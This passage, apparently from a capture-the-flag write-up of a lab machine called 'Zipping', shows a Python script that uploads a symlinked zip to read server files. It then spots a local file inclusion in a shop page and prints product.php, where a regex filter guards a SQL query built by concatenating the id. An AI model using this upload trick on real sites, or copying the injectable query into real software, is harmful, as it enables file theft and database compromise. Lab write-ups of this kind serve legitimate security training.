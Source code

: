  ```
    with open('link.zip', 'rb') as f:
        file_content = f.read()

    files = [('zipFile', ('sym.zip', file_content, 'application/octet-stream'))]
    data = {"submit": ""}
    r = requests.post(url, data=data, files=files)

    link = re.search('uploads.*.pdf">', r.text).group(0).strip('">')
    print(requests.get(base_url + link).text)
```
&nbsp;



Now Look at /shop as you can see there is a parameter `page=product` and `id=3` looks like vuln Sqli and php filter . 

&nbsp;




![](../../../../images/2024-01-19-14-07-47.png)

&nbsp; 
&nbsp;


&nbsp;You can see here i read the source code /shop/index.php . Looking at index.php we identify a potential Local File Inclusion (LFI) within the page parameter; if
file_exists is true, then a .php extension is appended and the page is rendered. So the website will read `page=product` only without `page=product.php` . Now looking at product.php code 

```
<?php
// Check to make sure the id parameter is specified in the URL
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
        header('Location: index.php');
    } else {
        // Prepare statement and execute, but does not prevent SQL injection
        $stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
        $stmt->execute();
        // Fetch the product from the database and return the result as an Array
        $product = $stmt->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if (!$product) {
            // Simple error to display if the id for the product doesn't exists (array is empty)
            exit('Product does not exist!');
        }
    }
} else {
    // Simple error to display if the id wasn't specified
    exit('No ID provided!');
}
?>

<?=template_header('Zipping | Product')?>

<div class="product content-wrapper">
    <img src="assets/imgs/<?=$product['img']?>" width="500" height="500" alt="<?=$product['name']?>">
    <div>
        <h1 class="name"><?=$product['name']?></h1>
        <span class="price">
            &dollar;<?=$product['price']?>
```